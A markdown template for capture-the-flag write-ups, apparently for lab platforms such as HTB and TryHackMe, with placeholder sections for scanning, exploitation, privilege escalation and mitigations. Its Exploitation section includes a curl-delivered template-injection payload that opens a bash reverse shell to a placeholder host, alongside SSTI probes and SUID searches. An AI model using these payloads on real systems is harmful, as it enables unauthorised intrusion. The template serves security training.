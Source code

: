 ```yaml
---
title: "<CTF> - <Challenge or Box Name>"
date: "2025-01-01"
author: "th3mujd11"
platform: "HTB | picoCTF | TryHackMe | Custom"
difficulty: "easy | medium | hard"
category: "web | pwn | crypto | forensics | misc"
tags: [web, ssti, auth-bypass]
target: "target.host or URL"
---
```


# TL;DR

Briefly summarize the path to the flag/root and the key vulnerability.

```
Foothold: <bug> -> <payload>
Privesc: <vector> -> <method>
Flag: <where/how>
```

---

# Target Summary

- IP/URL: `<target>`
- Exposed services: `80/tcp (http)`, `22/tcp (ssh)`
- Stack: `nginx`, `php-fpm`, `mysql`, `ubuntu 22.04`

---

# Enumeration

Commands and quick findings.

```bash
# Port scan
nmap -sC -sV -oN nmap.txt <target>

# Web crawl / fuzz
feroxbuster -u http://<target>/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -o ferox.txt

# Technology fingerprinting
whatweb http://<target>/
```

Key findings:
- `<path>` reveals `<file>` with credentials.
- Version `<x.y.z>` vulnerable to `<CVE-XXXX-YYYY>`.

---

# Foothold

Explain the vulnerability and show a minimal reproducible payload.

```http
GET /vuln?template={{7*7}} HTTP/1.1
Host: <target>
```

Expected behavior and output, screenshots if applicable.

---

# Exploitation

Show full chain from proof-of-concept to shell or flag.

```bash
# Reverse shell payload example
curl -G --data-urlencode "template={{system('bash -c \"bash -i >& /dev/tcp/<ip>/<port> 0>&1\"')}}" http://<target>/vuln
```

Notes and gotchas.

---

# Post-Exploitation / PrivEsc

Local enumeration and privilege escalation steps.

```bash
uname -a
sudo -l
find / -perm -4000 -type f 2>/dev/null
```

If exploiting misconfig or CVE, outline process and indicators.

---

# Proof of Flag / Root

```bash
cat /root/root.txt
# or
cat /home/<user>/user.txt
```

Flag: `flag{example-flag}`

---

# Mitigations

- Patch or upgrade `<component>` to `<fixed-version>`.
- Disable risky features: `<template eval>`, `<debug endpoints>`.
- Harden permissions and secrets management.

---

# References

- <link to CVE or advisory>
- <blog or writeup you used>
- <documentation>

